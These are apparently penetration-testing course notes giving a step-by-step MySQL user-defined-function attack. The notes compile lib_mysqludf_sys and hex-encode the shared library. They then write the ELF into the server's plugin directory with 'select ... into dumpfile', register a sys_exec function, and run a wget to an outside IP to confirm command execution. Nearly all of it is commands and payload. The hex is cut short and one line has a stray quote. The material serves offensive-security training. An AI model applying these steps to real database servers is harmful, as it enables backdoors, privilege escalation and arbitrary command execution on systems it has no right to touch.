 
```
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so 
```

```
git clone https://github.com/mysqludf/lib_mysqludf_sys.git
cd lib_mysqludf_sys/
sudo apt update && sudo apt install default-libmysqlclient-dev
rm lib_mysqludf_sys.so
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
mysql --host=127.0.0.1 --port=13306 --user=root -p
```

> [!info] 
> Check module for the steps of [compiling mysqludf](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/assembling-the-pieces-penetration-test-breakdown/targeting-the-database/attempting-to-exploit-the-database) 

```
set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000000;

select binary @shell into dumpfile /home/dev/plugin/udf_sys_exec.so';

create function sys_exec returns int soname 'udf_sys_exec.so';

select * from mysql.func where name='sys_exec';

select sys_exec('wget http://10.11.0.4');
```


**Resources**
```
https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

https://tesserent.com/insights/blog/simple-mysql-backdoor-using-user-defined-functions
```